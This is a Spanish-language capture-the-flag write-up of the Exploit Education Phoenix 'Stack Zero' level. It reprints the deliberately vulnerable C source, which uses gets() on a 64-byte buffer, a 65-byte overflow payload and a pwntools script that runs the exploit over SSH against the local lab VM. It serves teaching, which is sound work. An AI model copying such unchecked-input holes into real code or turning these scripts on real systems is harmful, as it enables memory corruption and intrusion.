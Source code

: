 ```yaml
---
layout: single
title: "Stack Zero"
permalink: /pwn/phoenix/stack-zero/
parent: Phoenix
comments: true
excerpt: "Stack Zero"
classes: wide
header:
  teaser: /assets/images/2025-08-17-Phoenix/logo.jpg
categories: [PWN]
tags: [PWN, Linux, Hacking, Easy]
---
```


![Untitled](/assets/images/2025-08-17-Phoenix/banner.png)

[Exploit Education > Phoenix > Stack Zero](https://exploit.education/phoenix/stack-zero/){:target="_blank"}

Este primer nivel introduce el concepto de **desbordamiento de buffer en la pila**. Aquí se muestra cómo es posible acceder a memoria fuera de la región asignada, comprendiendo la disposición de las variables en el stack y cómo una sobrescritura puede alterar el flujo del programa.

El programa define una estructura que contiene un buffer de 64 bytes seguido de una variable changeme. El uso de gets() hace posible escribir más datos de los esperados, sobrescribiendo memoria contigua.


```c
/*
 * phoenix/stack-zero, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable.
 *
 * Scientists have recently discovered a previously unknown species of
 * kangaroos, approximately in the middle of Western Australia. These
 * kangaroos are remarkable, as their insanely powerful hind legs give them
 * the ability to jump higher than a one story house (which is approximately
 * 15 feet, or 4.5 metres), simply because houses can't can't jump.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

**Ejecución manual**

Primero probamos con un solo carácter:

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
A
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
```

Dado que el buffer tiene 64 bytes, si enviamos 65 caracteres lograremos sobrescribir la variable changeme:

```c
user@phoenix-amd64:/opt/phoenix/amd64$ python -c 'print "A"*65'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```

Enviamos este valor y vemos que realizamos el desbordamiento del buffer 

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Well done, the 'changeme' variable has been changed!
```

**Explotación con Pwntools**

Para automatizar el proceso creamos un script en Python con pwntools:

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/0_stack-zero]
└─# cat Remote_exploit.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ 
   4   │ #Define Las Varibles
   5   │ payload = b'A' * 65
   6   │ 
   7   │ # Se conecta al servidor por SSH
   8   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
   9   │ 
  10   │ # Ejecuta el programa remoto
  11   │ process = ssh_connection.process(['/opt/phoenix/amd64/stack-zero'])
  12   │ 
  13   │ # Envía el payload 
  14   │ process.sendline(payload)
  15   │ 
  16   │ # captura la respuesta y la envía
  17   │ flag = process.recvall().decode()
  18   │ log.success("Output: " + flag)
  19   │ 
  20   │ # Cierra el proceso
  21   │ process.close()
  22   │ 
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────
```

**Resultado final**

Se evidencia el mensaje que indica que el reto fue resuelto

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/0_stack-zero]
└─# python3 Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process None on localhost: pid 526
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-zero'!
[+] Receiving all data: Done (128B)
[*] Stopped remote process 'stack-zero' on localhost (pid 526)
[+] Output: Welcome to phoenix/stack-zero, brought to you by https://exploit.education
    Well done, the 'changeme' variable has been changed!
```

**Conclusión**

- Este reto muestra cómo un buffer overflow simple permite sobrescribir variables locales en la pila. Aunque no se logra ejecución de código arbitrario, es la base para comprender vulnerabilidades más complejas que se verán en los siguientes niveles de la serie Stack.